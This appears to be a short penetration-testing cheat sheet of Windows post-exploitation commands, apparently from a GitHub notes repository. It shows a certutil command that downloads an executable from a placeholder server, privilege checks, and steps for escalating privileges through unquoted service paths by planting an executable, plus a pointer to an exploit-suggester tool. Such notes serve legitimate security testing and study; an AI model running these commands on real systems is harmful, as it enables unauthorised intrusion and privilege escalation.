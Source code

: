 # Windows Snippets

wget for Windows:
```
certutil.exe -urlcache -f http://SERVER/FILE.exe OUTFILE.exe
```

check for impersonate privs and other privs:
```
whoami /priv
```

Run `dir` recursively:
```
gci -recurse .
```

Unquoted Service Paths:
```
sc qc SERVICENAME # Check if BINARY_PATH_NAME calls an unquoted service path and see if is a priv esc opp
./accesschk /accepteula -uwdq "C:\DIR\FROM\ABOVE" # check write perms of a subdir of BINARY_PATH_NAME so we can commandeer the service call w our own executable
net start SERVICENAME # start the service after dropping our executable into the path
```

Kernel Priv Esc:
- save `systeminfo` output and run through the [Windows Exploit Suggester_new](https://github.com/bitsadmin/wesng)


## Tips
1. https://github.com/ankh2054/windows-pentest
